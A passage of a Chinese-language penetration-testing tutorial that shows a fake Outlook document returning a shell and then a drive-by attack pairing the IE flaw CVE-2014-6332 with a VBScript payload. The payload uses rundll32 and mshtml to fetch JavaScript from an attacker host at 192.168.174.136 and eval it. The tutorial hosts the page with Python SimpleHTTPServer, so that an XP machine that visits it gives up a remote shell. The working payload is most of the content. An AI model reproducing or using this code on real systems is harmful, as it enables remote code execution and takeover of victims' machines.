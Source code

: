 打开伪造的Outlook文档：

如图,内容中包含一个docx的图标

![Alt text](http://drops.javaweb.org/uploads/images/550295c00fcf8e022a6166415dfe308bf2b4c23d.jpg)

现在双击打开，如图

![Alt text](http://drops.javaweb.org/uploads/images/5d7d412ae0595a90e4fe920694a35536d387b638.jpg)

点击确定后，接着弹框，如图，随后弹回shell

![Alt text](http://drops.javaweb.org/uploads/images/0eedfef2308cb8b1fe379759fa163a65ed4aee94.jpg)

0x07 结合ie漏洞
===========

* * *

**结合漏洞：**`CVE-2014-6332`

**步骤：**

### 1、将JavaScript同CVE-2014-6332结合，实现挂马

修改后的关键代码为：

```
<SCRIPT LANGUAGE="VBScript">

function runmumaa() 
On Error Resume Next
set shell=createobject("wscript.shell")
shell.run "rundll32.exe javascript:""\..\mshtml,RunHTMLApplication "";document.write();h=new%20ActiveXObject(""WinHttp.WinHttpRequest.5.1"");h.Open(""GET"",""http://192.168.174.136/connect"",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(""WScript.Shell"").Run(""cmd /c taskkill /f /im rundll32.exe"",0,true);}",0
end function
 </script>

```

之后将html文件放于kali上

### 2、kali上开启SimpleHTTPServer

```
python -m SimpleHTTPServer 80

```

如图![Alt text](http://drops.javaweb.org/uploads/images/b5c62ad838baef672b8add803509edfa680e7f8a.jpg)

### 3、访问`http://192.168.174.133/JavaScript.html`

xp系统访问直接弹回shell
